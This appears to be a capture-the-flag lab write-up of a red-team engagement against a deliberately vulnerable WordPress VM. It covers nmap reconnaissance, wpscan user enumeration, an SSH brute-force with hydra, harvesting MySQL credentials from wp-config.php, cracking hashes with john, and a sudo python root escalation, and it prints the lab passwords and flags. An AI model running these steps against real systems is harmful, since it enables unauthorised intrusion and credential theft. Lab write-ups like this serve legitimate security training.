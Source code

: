 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
`$ netdiscover -r 192.168.1.255/16`  
```
![](images/netdiscover.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
`$ nmap -sV 192.168.1.110`
```
![](images/nmap-sV.png)

Name of VM: `Target 1`  
Operating System: `Linux`  
Purpose: `Defensive Blue Team`  
IP Address: `192.168.1.110`


```bash
`$ nmap -sS -sV -O 192.168.1.0/24`
```
![](images/nmap-sS-sV-O1.png)
![](images/nmap-sS-sV-O2.png)
![](images/nmap-sS-sV-O3.png)
![](images/nmap-sS-sV-O4.png)

This scan identifies the services below as potential points of entry:
- `Target 1` (192.168.1.110)
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4  
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))  
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)  
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  

The following vulnerabilities were identified on **`Target 1`**:
- `Target 1` (192.168.1.110)
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)  
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)  
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)  

### Critical Vulnerabilities 

The following vulnerabilities were identified on `Target 1`.  


|           Vulnerabilities       |             Description                                                                          |                      Impact                                                                                                                      |
| --------------------------------|:-------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------|
| Port 80 WordPress vulnerability | Nmap detects servers, ports, services and OS version.                                            | The source code of services.html allows attacker to gain more inside information about TARGET1.                                                  |
| Port 22 SSH vulnerability       | Secure Shell (SSH) port is opened and allows connections to TARGET1.                             | SSH allows attacker to further exploit TARGET1 and access to sensitive information.                                                              |
| MYSQL vulnerability             | The root user access information for MYSQL database is hardcoded in /var/www/html/wp-config.php. | Root user and password enable attacker to connect to MYSQL database and discover other sensitive information. Example: User name and  password.  |
| Sudo privilege vulnerability    | Privilege escalation of credentials from a standard user to root through sudo privileges.        | Root account is compromised.                                                                                                                     |


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell.  
- Command used: wpscan --url http://192.168.1.110/wordpress -eu  

```bash
root@Kali:~# wpscan --url http://192.168.1.110/wordpress -eu
```  
![](images/wpscan.png)
![](images/wpscan1.png)

- **Exploit Used**
- `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- ![hydrascan](images/hydra.png)

 - ssh into **`Michael’s`** account and look in the/var/www files
  - **Command:** `ssh michael@192.168.1.110`  
  - The username and password **`michael`** were identical, allowing for the ssh connection.  
  ![Michael's Password](images/michael.png)  
  
  - **Command:** `cd /var/www`  
  - **Command:** `ls`  
  - **Command:** `grep -RE flag html`  
  - **`flag1`** was part of the long printout.
  ![Flag1 Printout](images/flag1.png)

**Flag 2**  
- flag2.txt: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`  
  - Exploit Used  
    - **Command:** `ssh into Michael’s account and look in the /var/www files`  
    - **Command:** `cd /var/www`  
    - **Command:** `ls -lah`  
    - **Command:** `cat flag2.txt`  
![Flag2 txt](images/flag2.png)  

**Flag 3**  
- flag3.txt: `flag3{afc01ab56b50591e7dccf93122770cd2}`  
![Flag3](images/flag3.png)  
  - Exploit Used  
    - Continued using michael shell to find the `MySQL database` password, logged into `MySQL database`, and found `Flag 3` in wp_posts table.  
    - **Command:** `cd /var/www/html/wordpress/`  
    - **Command:** `cat /var/www/html/wordpress/wp-config.php`  
![WP-CONFIG](images/mysql.png)

- Used the credentials to log into MySQL and dump WordPress user password hashes.  
  - **DB_NAME:** `wordpress`  
  - **DB_USER:** `root`  
  - **DB_PASSWORD:** `R@v3nSecurity`  
  - **Command:** `mysql -u root -p`

```bash
$ mysql -u root -p  
```  
- Searched MySQL database for `Flag 3` and `WordPress` user password hashes.  
  - **`Flag 3`** found in `wp_posts`.  
  - **Password hashes** found in `wp_users`.  
  - **Command:** `show databases;`  
  - **Command:** `use wordpress;`  
  - **Command:** `show tables;`  
  - **Command:** `select * from wp_posts;`  
![Access to MYSQL](images/mysql1.png) 
![Database](images/mysql2.png)  
![Database](images/mysql2.png)

  - `Flag 3` and `Flag 4` were part of the `wp_post`.  
- Screenshot of WordPress user password hashes: 
  - **Command:** `select * from wp_users;`  

![Password Hashes from wp_users](images/hashes.png)  

**Flag 4**  
- flag4.txt: `flag4{715dea6c055b9fe3337544932f2941ce}`
  - Exploit Used
    - Used `john` to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.  
    - Cracking the password hash with `john`.  
    - Copied password hash from `MySQL` into _`~/root/wp_hashes.txt`_ and cracked with `john` to discover `Steven’s` password is **`pink84`**.  
      - **Command:** `john wp_hashes.txt`
![John Hashes Password](images/john.png)  
      - **Command:** `john --show wp_hashes.txt`  
  - Secure a user shell as the user whose password you cracked.
    - **Command:** `ssh steven@192.168.1.110`  
    - **Password:** `pink84`  
  - Escalating to root:  
    - **Command:** `sudo -l`  
![Sudo Steven's Account]()  
    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`  
```bash    
$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```  
  - Searched for the root directory for `Flag 4`.  
    - **Command:** `cd /root/`  
    - **Command:** `ls`  
    - **Command:** `cat flag4.txt`
  - Screenshot of `Flag 4`:  
![Flag 4]((images/flag4.png))

### Submitted By - Aziz Somani